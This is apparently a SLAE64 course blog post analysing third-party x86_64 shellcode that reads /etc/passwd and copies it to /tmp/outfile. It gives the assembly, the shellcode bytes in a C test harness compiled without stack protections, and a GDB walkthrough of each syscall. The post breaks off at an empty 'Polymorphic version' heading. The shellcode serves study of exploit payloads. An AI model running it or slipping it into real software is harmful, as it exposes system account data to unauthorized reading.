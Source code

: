 ```yaml
---
title: SLAE64 Assignment 6 - Polymorphic Read /etc/passwd
date: 2020-4-26
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

# Overview
For the sixth assignment of the SLAE64, I created three polymorphic payloads from shellcodes on shellstorm and the exploit db. This third payload reads `/etc/passwd` and writes the output to `/tmp/outfile`.


## Original Shellcode
The original shellcode by Chris Higgins can be found here: http://shell-storm.org/shellcode/files/shellcode-867.php
```nasm
; http://shell-storm.org/shellcode/files/shellcode-867.php
;Reads data from /etc/passwd to /tmp/outfile
;No null bytes
;Author: Chris Higgins <chris@chigs.me>
;        @ch1gg1ns -- github.com/chiggins
;        chigstuff.com
;Date:   3-27-2014
;Size:   118 bytes
;Tested: ArchLinux x86_64 3.13.6-1
Assembly:
        xor rax, rax
        mov al, 2
        xor rdi, rdi
        mov rbx, 0x647773
        push rbx
        mov rbx, 0x7361702f6374652f
        push rbx
        lea rdi, [rsp]
        xor rsi, rsi
        syscall
        mov rbx, rax
        xor rax, rax
        mov rdi, rbx
        mov rsi, rsp
        mov dx, 0xFFFF
        syscall
        mov r8, rax
        mov rax, rsp
        xor rbx, rbx
        push rbx
        mov rbx, 0x656c6966
        push rbx
        mov rbx, 0x74756f2f706d742f
        push rbx
        mov rbx, rax
        xor rax, rax
        mov al, 2
        lea rdi, [rsp]
        xor rsi, rsi
        push 0x66
        pop si
        syscall
        mov rdi, rax
        xor rax, rax
        mov al, 1
        lea rsi, [rbx]
        xor rdx, rdx
        mov rdx, r8
        syscall
```

## Testing & Analyzing the Original
First we will analyze the payload with GDB. Hopefully it works as intended!
+ Thankfully the author had already created the host `shellcode.c` program for us.
+ We will use his program and compile it with GCC.
```bash
root# gcc -m64 -z execstack -fno-stack-protector original-shellcode.c -o original-shellcode
root# gdb ./original-shellcode
GNU gdb (Debian 8.3.1-1) 8.3.1
gdb-peda$ b main
Breakpoint 1 at 0x1139
gdb-peda$ r
```
+ Awesome! So far so good!
+ We set a breakpoint on main. We will step through to the shellcode.

After stepping through his version it seems a little sketch. To play it safe, the shellcode was added to the `shellcode.c` program we are familiar with.

```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = \
"\x48\x31\xc0\xb0\x02\x48\x31\xff\xbb\x73\x77\x64\x00\x53\x48"                                            "\xbb\x2f\x65\x74\x63\x2f\x70\x61\x73\x53\x48\x8d\x3c\x24\x48"                                            "\x31\xf6\x0f\x05\x48\x89\xc3\x48\x31\xc0\x48\x89\xdf\x48\x89"                                            "\xe6\x66\xba\xff\xff\x0f\x05\x49\x89\xc0\x48\x89\xe0\x48\x31"                                            "\xdb\x53\xbb\x66\x69\x6c\x65\x53\x48\xbb\x2f\x74\x6d\x70\x2f"                                            "\x6f\x75\x74\x53\x48\x89\xc3\x48\x31\xc0\xb0\x02\x48\x8d\x3c"                                            "\x24\x48\x31\xf6\x6a\x66\x66\x5e\x0f\x05\x48\x89\xc7\x48\x31"                                            "\xc0\xb0\x01\x48\x8d\x33\x48\x31\xd2\x4c\x89\xc2\x0f\x05";
int main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

#### Compile Host C Program
```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# gdb ./shellcode
```

### 1st Open System Call
```c
int open(const char *pathname, int flags);
rax=0x2   rdi=&AbsFileName     rsi=0x0
open("/etc/passwd", O_RDONLY)           = 3
```

```bash
RAX: 0x2
RSI: 0x0
RDI: 0x7fffffffe368 ("/etc/passwd")
   <shellcode>:     xor    rax,rax
   <shellcode+3>:   mov    al,0x2    - open syscall
   <shellcode+5>:   xor    rdi,rdi
   <shellcode+8>:   mov    ebx,0x647773 - "swd"
   <shellcode+13>:  push   rbx
   <shellcode+14>:  movabs rbx,0x7361702f6374652f - "/etc/pas"
   <shellcode+24>:  push   rbx
   <shellcode+25>:  lea    rdi,[rsp] - &etcPasswd
   <shellcode+29>:  xor    rsi,rsi - no flags = 0_RDONLY
=> <shellcode+32>:  syscall
```

### Read System Call
```c
ssize_t read(int fd, void *buf, size_t count);
rax=0x0      rdi=fd  rsi=&Dest  rdx=len(2read)
```

```bash
   <shellcode+34>:  mov    rbx,rax - rbx = fd
   <shellcode+37>:  xor    rax,rax
   <shellcode+40>:  mov    rdi,rbx - rdi = fd
   <shellcode+43>:  mov    rsi,rsp - &Dest = Top of Stack
   <shellcode+46>:  mov    dx,0xffff - Read a crap ton of bytes
   <shellcode+50>:  syscall - read systemcall
```

### 2nd Open System Call
```c
int open(const char *pathname, int flags);
rax=0x2   rdi=&AbsFileName     rsi=0x0
```

```bash
RAX: 0x2
RSI: 0x66 ('f')
RDI: 0x7fffffffe350 ("/tmp/outfile")
   <shellcode+52>:  mov    r8,rax
   <shellcode+55>:  mov    rax,rsp
   <shellcode+58>:  xor    rbx,rbx
   <shellcode+61>:  push   rbx     - 0x00 Nulll Str Terminator
   <shellcode+62>:  mov    ebx,0x656c6966 - "file"
   <shellcode+67>:  push   rbx
   <shellcode+68>:  movabs rbx,0x74756f2f706d742f - "/tmp/out"
   <shellcode+78>:  push   rbx
   <shellcode+79>:  mov    rbx,rax
   <shellcode+82>:  xor    rax,rax
   <shellcode+85>:  mov    al,0x2    - open systemcall
   <shellcode+87>:  lea    rdi,[rsp] - rdi = &String
   <shellcode+91>:  xor    rsi,rsi
   <shellcode+94>:  push   0x66
   <shellcode+96>:  pop    si
   <shellcode+98>:  syscall

### Write System Call
```c
ssize_t write(int fd, const void *buf, size_t count);
rax= 0x1      rdi=fd  rsi=&Src        rdx=len(write)

```
 
```bash
   <shellcode+100>: mov    rdi,rax  - rdi = fd /tmp/outfile
   <shellcode+103>: xor    rax,rax
   <shellcode+106>: mov    al,0x1   - write systemcall
   <shellcode+108>: lea    rsi,[rbx]
   <shellcode+111>: xor    rdx,rdx
   <shellcode+114>: mov    rdx,r8
   <shellcode+117>: syscall
```
+ Well it is close to working, but unfortnately it does not.


## Polymorphic version
